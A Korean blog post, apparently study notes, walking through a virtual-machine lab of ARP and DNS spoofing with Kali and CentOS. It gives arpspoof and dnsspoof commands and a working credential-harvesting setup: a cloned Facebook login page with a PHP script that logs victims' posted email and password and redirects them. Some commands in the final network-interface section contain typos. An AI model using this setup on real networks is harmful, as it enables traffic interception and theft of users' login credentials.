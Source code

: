 ```yaml
---
layout: single
title: Spoofing 
categories: 정보보안
---
```

Kali와 CentOS에서 ARP Spoofing과 DNS Spoofing을 실습해보자.

<font color= '#ffcc66' >IP Spoofing</font>
IP Spoofing이란 자신의 ip를 변조해 자신이 만든 패킷을 다른 컴퓨터가 만든 패킷처럼 만드는 것이다.


<font color= '#ffcc66'>Fragroute</font>

포트 포워딩을 해주는 도구. 
ARP Spoofing을 하게 되면 자신에게 패킷이 오게 되는데, 이후 다시 피해자가 지정한 곳에 피해자의 패킷을 보내주기 위해 사용한다. 만약 이를 사용하지 않으면 피해자의 패킷이 나에게만 오고 전달되야할 곳에 전달이 안되서 피해자가 정상적인 네트워크를 사용하지 못한다. 

```
fragroute -B1
```

<font color= '#ffcc66'>ARP Spoofing</font>

VMWARE 등의 가상 장비를 사용해서 
arp -a : 현재 MAC 테이블 확인

route -n  : 게이트웨이 주소 확인

arpspoof -i [인터페이스 이름] [target ip] [gateway ip]

와이어샤크를 이용해 패킷을 확인해 보면 target에서 내 ip를 
통해 패킷을 보내고 내 PC에서 게이트웨이에 다시 패킷을 보내 도청하고 있는 것을 알 수 있다. 여기서 응용해 DNS Spoofing을 해보자.


<font color= '#ffcc66'>DNS Spoofing</font>

공격자의 apache2를 실행해주고 피해자가 지정된 domain에 접근시 공격자의 html로 접근해 피해자가 입력하는 정보를 탈취하는 방법을 실습해보자.

facebook.html을 다운 받고 이를 /etc/www/html에 삽입해주자. 파일명은 index.html로 만들어주자. index.html에서 
method 옆 action 기존 내용을 지우고 php파일을 삽입해주자.
  
```html
action="post.php" method=POST
```

action에 지정된 post.php 파일을 생성해 주자.

```php
<?php
$file="post.txt";
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
?>
<meta http-equiv="refresh" content="0; url=http://www.facebook.com">
```

이 php는 post.txt에 피해자가 입력한 정보를 입력해주고 피해자를 다시 원래의 facebook으로 접속하게 해준다. 이제 dnsspoof를 이용하기 위해 host.txt 파일을 생성해 주자. dnsspoof의 경우 파일을 통해 호스트와 url을 지정해 줄 수 있다. 

```
[피해자 ip] *.facebook.com
```

그리고 이제 이 파일을 이용해서 dnsspoof 명령어를 실행해주자.

```
dnsspoof -i [인터페이스 이름] -f /경로/hosts.host
```

이제 피해자 PC에서 nscd를 이용해 dns를 초기화해줘야 한다. 

```
systemctl restart nscd
```
이 후에 피해자 컴퓨터에서 페이스북에 접근을 시도하면, 아까 지정해준 공격자의 index.html에 접근하게 되고 피해자가 e-mail과 비밀번호를 입력할 시 아까 생성한 post.txt에 입력된다. 

<font color= '#ffcc66' >이 방법이 성공하지 않을 수 있다.</font> 이러한 공격을 막기 위해 웹 브라우저에서 자체적으로 보통 차단하기 때문에 성공하지 않을 수 있다. 만약에 이를 해결하는 경우 댓글로 알려주시면 감사하겠습니다.


<font color= '#ffcc66' >네트워크 인터페이스가 다를 경우</font>

VMware를 사용해 실습할 경우 각 OS의 네트워크 인터페이스가 다를 수가 있다. kali는 eth0인데 서버는 ens33이라던지. 이 경우 /etc/default/grub 파일을 수정해 주면 된다.(centOS 기준)
GRUB_CMDLINE_LINUX 부분에
/swap 이 부분 뒤 <font color= '#ffcc66' > [net.ifnames=0] rhgb quite </font> 이렇게 수정해주도록 하자.


```
grub2-mkconfig -o /boot/grub2grub.cfg  

cd /etc/sysconfig/network-scripts  

mv ifcfg-ens33 ifcfg-eth0  

vi ifcfg-eth0  
```
 
 
생성된 ifcfg에서 name과 device 태그를 eth0로 변경해주자.
재부팅 후 네트워크를 확인하면 이름이 변경된 것을 알 수 있다.
